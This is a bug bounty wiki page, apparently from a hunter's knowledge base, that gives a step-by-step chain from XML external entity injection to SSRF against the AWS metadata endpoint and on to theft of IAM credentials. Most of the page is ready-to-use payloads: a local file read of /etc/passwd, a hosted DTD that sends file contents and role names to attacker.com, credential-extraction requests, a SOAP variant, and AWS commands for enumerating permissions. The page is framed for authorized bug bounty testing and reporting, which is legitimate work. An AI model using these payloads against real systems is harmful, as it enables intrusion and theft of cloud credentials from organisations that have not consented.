

> Source: https://bugbounty.info/Chains/XXE-to-SSRF-to-RCE

# XXE to SSRF to Cloud RCE

## Why This Chain Works

Legacy SOAP endpoints and XML-accepting APIs almost never have DTD processing disabled. The developer who built the SOAP layer in 2014 didn't think about XXE because it wasn't on the radar the same way it is now, and the service has been running since then without a security review. XXE gives you SSRF for free, via the out-of-band data exfiltration mechanism built into the XML standard. Once you have SSRF inside a cloud-hosted service, the chain to [SSRF to Cloud RCE](../Chains/SSRF-to-Cloud-RCE) is already documented. This page focuses on the entry: getting from XML input to an SSRF that reaches the metadata endpoint.

Related: [XXE](../Attack-Surface/Web/XXE), [SSRF to Cloud RCE](../Chains/SSRF-to-Cloud-RCE), [IAM Privilege Escalation](../Attack-Surface/Cloud/AWS/IAM-Privilege-Escalation)

---

## Attack Flow



---

## Step-by-Step

### 1. Find the XML Surface

XML processing is common in:

- SOAP web services (`Content-Type: text/xml` or `application/soap+xml`)
- REST APIs that accept `application/xml`
- File upload endpoints for `.docx`, `.xlsx`, `.odt` (all are ZIP files containing XML)
- SVG file uploads (SVGs are XML)
- RSS/Atom feed importers
- XML-based configuration file imports
- PDF generators that accept HTML or XML templates

When you find an XML input, your first probe is always XXE.

### 2. Basic XXE Probe

**In-band test (response-based):**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root><data>&xxe;</data></root>
```

If `root/linux/etc/passwd` contents appear in the response - you have in-band XXE.

**Out-of-band test (blind XXE):**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ENTITY % remote SYSTEM "http://YOUR.oast.me/xxe">
  %remote;
]>
<root><data>test</data></root>
```

If your Burp Collaborator or interactsh receives a DNS/HTTP hit, DTD processing is enabled and you can exfiltrate data.

### 3. OOB Data Exfiltration (Blind XXE)

Host a malicious DTD on your server at `http://attacker.com/evil.dtd`:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % wrap "<!ENTITY &#x25; send SYSTEM 'http://attacker.com/?data=%file;'>">
%wrap;
%send;
```

Trigger it with:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
  %dtd;
]>
<foo>bar</foo>
```

The server fetches your DTD, resolves the `%file` entity, then sends the content to your server in a query parameter.

### 4. Pivot to SSRF - Hit the Metadata Endpoint

Replace the `file://` entity with an `http://` URL pointing at the cloud metadata endpoint:

**AWS:**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ENTITY ssrf SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
]>
<root><data>&ssrf;</data></root>
```

If in-band XXE exists, the role name appears in the response body. If blind, use the OOB exfiltration DTD with the HTTP URL:

```xml
<!ENTITY % ssrf SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
<!ENTITY % wrap "<!ENTITY &#x25; send SYSTEM 'http://attacker.com/?role=%ssrf;'>">
%wrap;
%send;
```

You receive the IAM role name at your server.

### 5. Extract the Credentials

Second request to get the actual credentials:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
  <!ENTITY creds SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME_HERE">
]>
<root><data>&creds;</data></root>
```

Response (in-band) or OOB data contains:

```json
{
  "AccessKeyId": "ASIA...",
  "SecretAccessKey": "...",
  "Token": "...",
  "Expiration": "2026-01-01T00:00:00Z"
}
```

### 6. Complete the SSRF to Cloud RCE Chain

From here the chain continues exactly as documented in [SSRF to Cloud RCE](../Chains/SSRF-to-Cloud-RCE):

```bash
export AWS_ACCESS_KEY_ID=ASIA...
export AWS_SECRET_ACCESS_KEY=...
export AWS_SESSION_TOKEN=...
 
aws sts get-caller-identity
# Confirms identity and account number
 
python3 enumerate-iam.py --access-key $AWS_ACCESS_KEY_ID \
  --secret-key $AWS_SECRET_ACCESS_KEY \
  --session-token $AWS_SESSION_TOKEN
# Enumerate all available permissions
```

From there, escalate via `iam:CreateUser`, `lambda:CreateFunction`, `ssm:StartSession`, or S3 read access depending on what permissions the role holds.

### 7. SOAP Envelope Specifics

For SOAP endpoints, the XXE entity must be valid XML within the envelope:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE soap [
  <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
]>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <getUserRequest>
      <userId>&xxe;</userId>
    </getUserRequest>
  </soap:Body>
</soap:Envelope>
```

---

## PoC Template for Report

```text
1. Endpoint: POST /api/soap/user (Content-Type: text/xml)
2. OOB probe: sent DTD with entity pointing to http://oast.me/test
   Collaborator received DNS callback - DTD processing confirmed
3. Local file read:
   <!ENTITY xxe SYSTEM "file:///etc/passwd">
   Response includes: root:x:0:0:root:/root:/bin/bash (partial)
4. SSRF to metadata:
   <!ENTITY ssrf SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/">
   Response includes role name: "app-prod-role"
5. Credential extraction:
   <!ENTITY creds SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/app-prod-role">
   Response includes AccessKeyId: ASIA..., SecretAccessKey, Token
6. AWS identity:
   aws sts get-caller-identity -> arn:aws:iam::123456789:assumed-role/app-prod-role/i-abc123
7. enumerate-iam output attached showing iam:CreateUser permission.
```

---

## Public Reports

- XXE in SOAP endpoint leaking AWS credentials on DoD - [HackerOne #461560](https://hackerone.com/reports/461560)
- Blind XXE with out-of-band data exfiltration on Shopify - [HackerOne #360680](https://hackerone.com/reports/360680)
- XXE in SVG upload enabling SSRF on internal network - [HackerOne #508663](https://hackerone.com/reports/508663)
- XXE in file import used to read EC2 instance metadata - [HackerOne #986000](https://hackerone.com/reports/986000)

---

## Reporting Notes

This is a three-step chain. Present it in three parts with clear separation: XXE confirmed, SSRF to metadata, credentials and permissions enumeration. Include the OOB callback screenshot from Burp Collaborator, the credential JSON (redact the actual secret values), and the `sts get-caller-identity` output. Programs that do not have XXE in scope still cover this chain when it produces cloud credential theft - the impact argument overrides most scope ambiguity.
